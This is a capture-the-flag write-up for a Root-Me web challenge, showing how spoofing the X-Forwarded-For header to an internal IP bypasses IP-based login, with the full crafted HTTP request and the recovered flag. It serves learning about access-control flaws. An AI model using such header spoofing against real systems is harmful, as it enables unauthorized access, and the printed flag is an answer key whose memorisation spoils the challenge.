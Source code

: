 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


> Dear colleagues,
> We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network.
> Regards,
> The network admin

![1](https://github.com/Knign/Write-ups/assets/110326359/f062cc6a-5da5-4ea4-9c8e-1d2322eaa2d2)

Let's intercept this request in Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/bcc2159c-e705-443c-8c0f-97195a665096)

Next, we can send this request to the `Repeater`.

## X-Forwarded-For
```
X-Forwarded-For: <client>, <proxy1>, <proxy2>
```
It is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.

We can add this header and set it's value to `192.168.0.1` as the origin should be connected to the internal company network.
## HTTP Request
```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
X-Forwarded-For: 192.168.0.1
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697290591.1.1.1697292257.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
For the final step we have to send this request to the server.

![3](https://github.com/Knign/Write-ups/assets/110326359/ce4586b6-7236-4f0e-b82a-b452253f3230)

## Flag
```
Ip_$po0Fing
```
